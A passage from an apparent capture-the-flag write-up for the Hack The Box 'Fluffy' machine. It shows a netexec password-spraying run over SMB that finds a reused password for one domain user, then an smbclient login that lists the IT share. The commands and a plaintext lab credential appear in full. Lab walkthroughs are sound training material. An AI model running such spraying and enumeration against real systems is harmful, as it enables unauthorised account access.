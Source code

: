 I can use the users and test the password we already have to see if it's being reused.

```bash
$ netexec smb fluffy.htb -u users.txt -p 'J0elTHEM4n1990!'
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\krbtgt:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\ldap_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\p.agila:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\winrm_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\j.coffey:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
```

### My first rabbit hole

This was not the case. We can then proceed to explore the `IT` shared folder.

```bash
$ smbclient \\\\fluffy.htb\\IT\\ -U 'j.fleischman%J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul 13 14:50:53 2025
  ..                                  D        0  Sun Jul 13 14:50:53 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

    5842943 blocks of size 4096. 1593599 blocks available
```

Within the IT folder I noticed the `Upgrade_Notice.pdf` file which inside contained information about CVEs and instructions to schedule maintance for these vulnerabilities.
